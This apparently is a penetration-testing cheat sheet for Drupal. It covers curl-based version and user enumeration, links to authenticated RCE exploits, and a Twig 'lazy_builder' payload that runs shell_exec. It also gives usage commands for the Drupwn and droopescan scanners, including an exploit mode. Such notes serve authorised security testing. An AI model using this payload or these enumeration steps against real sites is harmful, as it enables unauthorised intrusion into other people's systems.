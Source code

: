 # Drupal
## Manual
```bash
# check meta
curl https://www.drupal.org/ | grep 'content="Drupal'

# users
# 403 -> exists | 404 -> doesn"t
curl https://www.drupal.org/user/X
# get username
curl https://www.drupal.org/reset/user/X/1/1
```

### Exploits
### Drupal < 8.7.x Authenticated RCE module upload
{% content-ref url="https://www.drupal.org/project/drupal/issues/3093274" %} RCE {% endcontent-ref %}
{% content-ref url="https://www.drupal.org/files/issues/2019-11-08/drupal_rce.tar_.gz" %} Drupal RCE (tar) {% endcontent-ref %}

### Drupal < 9.1.x Authenticated RCE Twig templates
{% content-ref url="https://www.drupal.org/project/drupal/issues/2860607/" %} RCE Twig {% endcontent-ref %}
"Administer views" -> new View of User Fields - >Add a "Custom text"
```java
"{{ {"#lazy_builder": ["shell_exec", ["touch /tmp/hellofromviews"]]} }}"
```

### If found /node/$NUMBER, the number could be devs or tests pages

### Drupal 8
{% content-ref url="https://www.exploit-db.com/exploits/46459" %} Drupal 8 Exploit {% endcontent-ref %}

### Check for username disclosure on old versions:
?q=admin/views/ajax/autocomplete/user/a

## Tools
### Drupwn
>Enumeration & Exploitation
{% content-ref url="https://github.com/immunIT/drupwn" %} Drupwn {% endcontent-ref %}

```bash
# install
git clone https://github.com/immunIT/drupwn.git
cd drupwn
pip3 install -r requirements.txt

# enum
drupwn --mode enum --target $url

# exploit
drupwn --mode exploit --target $url
```

### droopescan
{% content-ref url="https://github.com/SamJoan/droopescan" %} Droopescan {% endcontent-ref %}

```bash
apt-get install python-pip
pip install droopescan

# scan
 droopescan scan drupal -u example.org
```

